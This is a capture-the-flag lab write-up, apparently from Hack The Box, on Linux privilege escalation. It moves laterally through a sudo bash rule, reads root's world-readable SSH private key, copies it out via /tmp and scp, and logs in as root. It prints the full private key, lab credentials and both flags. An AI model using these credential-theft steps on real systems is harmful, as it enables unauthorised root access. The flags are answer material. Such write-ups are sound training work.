 ## Privilege Escalation Pentest
IP: 83.136.254.47
Port: 34842
user: `user1`
password: `password1`

1. Connect using ssh
```bash
ssh user1@83.136.254.47 -p 34842
```
#### Question: Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.

1. try to see if you can access `/home/user2/flag.txt` as user1
```bash
user1@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:~$ cat /home/user2/flag.txt 
cat: /home/user2/flag.txt: Permission denied
```
- Permission denied.
2. Try `sudo -l` to see what commands you can run as user1
```bash
user1@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:~$ sudo -l
Matching Defaults entries for user1 on
    ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:
    (user2 : user2) NOPASSWD: /bin/bash
```
- `(user2 : user2) NOPASSWD: /bin/bash` we can execute terminal as user2
    - Execute this using `sudo -u user2 /bin/bash`
    ```bash
    user1@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:~$ sudo -u user2 /bin/bash
    user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/home/user1$
    ```
    - Notice the user has changed at the beginning. Now read `/home/user2/flag.txt`
    ```bash
    user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/home/user1$ cat /home/user2/flag.txt 
    HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
    ```
    - The flag! `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`

#### Question 2: Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
1. Tried running `sudo -l` to see what commands can run as user2 but resulted in error as I ***don't know the password***
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/home/user1$ sudo -l
[sudo] password for user2: 
Sorry, try again.
[sudo] password for user2: 
sudo: 1 incorrect password attempt
```
2. Try the `.ssh` dir to see if we have read or write access to it
    - No `.ssh` dir found under `/home/user2/`
3. In the question, they need you to get a flag from `/root/flag.txt`. Go to the `/`root dir and list all the files.
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/$ cd /
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/$ ls -al
total 68
drwxr-xr-x   1 root root  4096 Oct  7 21:36 .
drwxr-xr-x   1 root root  4096 Oct  7 21:36 ..
lrwxrwxrwx   1 root root     7 Jul 20  2020 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Oct  7 21:36 dev
drwxr-xr-x   1 root root  4096 Feb 12  2021 etc
drwxr-xr-x   1 root root  4096 Feb 12  2021 home
lrwxrwxrwx   1 root root     7 Jul 20  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Jul 20  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Jul 20  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Jul 20  2020 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Jul 20  2020 media
drwxr-xr-x   2 root root  4096 Jul 20  2020 mnt
drwxr-xr-x   2 root root  4096 Jul 20  2020 opt
dr-xr-xr-x 386 root root     0 Oct  7 21:36 proc
drwxr-x---   1 root user2 4096 Feb 12  2021 root
drwxr-xr-x   1 root root  4096 Oct  7 21:52 run
lrwxrwxrwx   1 root root     8 Jul 20  2020 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Jul 20  2020 srv
dr-xr-xr-x  13 root root     0 Sep 25 07:47 sys
drwxrwxrwt   1 root root  4096 Aug 19  2020 tmp
drwxr-xr-x   1 root root  4096 Jul 20  2020 usr
drwxr-xr-x   1 root root  4096 Aug 19  2020 var
```
- There is a root dir
4. Check to see if you can find `.ssh` dir in `/root` and what permissions are set
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root$ ls -al
total 32
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-xr-x 1 root root  4096 Oct  7 21:36 ..
-rwxr-x--- 1 root user2    5 Aug 19  2020 .bash_history
-rwxr-x--- 1 root user2 3106 Dec  5  2019 .bashrc
-rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
drwxr-x--- 1 root user2 4096 Feb 12  2021 .ssh
-rwxr-x--- 1 root user2 1309 Aug 19  2020 .viminfo
-rw------- 1 root root    33 Feb 12  2021 flag.txt
```
- The owner -**root**- has read, write, and execute permissions.
- The group -***user2**- has read and execute permissions `r-x`
- Others have no permissions
5. Check for file permissions in the `.ssh` directory
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root$ cd .ssh/
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root/.ssh$ ls -al
total 20
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
-rw------- 1 root root   571 Feb 12  2021 authorized_keys
-rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
-rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
```
- looks like the world has read permissions to the `id_rsa` file
6. read the file 
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
7. At this point, remeber that you still only have access to **user1**. So put this `id_rsa` file in some dir that user1 has access to, so that you can download the file to your local machine as user1
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root/.ssh$ cp ./id_rsa /home/user1/
cp: cannot create regular file '/home/user1/id_rsa': Permission denied
```
- Currently logged in as user2 and tried to copy a the id_rsa file to user1 home dir and permission was denied.
- Notice from ***step 3*** that the world has read and write access to `/tmp` dir. Put the id_rsa file there instead, so that you can pull it as user1
```bash
user2@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:/root/.ssh$ cp ./id_rsa /tmp/id_rsa_root
```
- Now change the permissions to **rwx** for all users
`chmod +777 ./id_rsa_root`
8. Finally, SSH into user1 again with the credentials from up top and copy the file from /tmp:
```bash
$ scp -P 34842 user1@83.136.254.47:/tmp/id_rsa_root /home/htb-ac-1397757/Downloads/
(user1@83.136.254.47) Password: 
id_rsa_root                                   100% 2602   226.1KB/s   00:00 
```
- `scp`: used for copy using ssh
- **user1@83.136.254.47:/tmp/id_rsa_root**: This is the dir you want to copy from the remote host
- **/home/htb-ac-1397757/Downloads/**: Dir you want to copy to on localhost.
9. Remeber to update permissions of id_rsa_root on localhost to **600** because ssh won't allow to connect with rwx for everyone.
- chmod +600 ~/Downloads/id_rsa_root.txt
10. SSH as root and copy the flag from `/root/flag.txt`
    ```bash
    ssh root@83.136.254.47 -p 34842 -i ~/Downloads/id_rsa_root 
    ```
    - Log in as root
    - grab the flag
    ```bash
    root@ng-1397757-gettingstartedprivesc-p4mtc-6696fbc4cc-hjmjb:~# cat /root/flag.txt 
    HTB{pr1v1l363_35c4l4710n_2_r007}
    ```
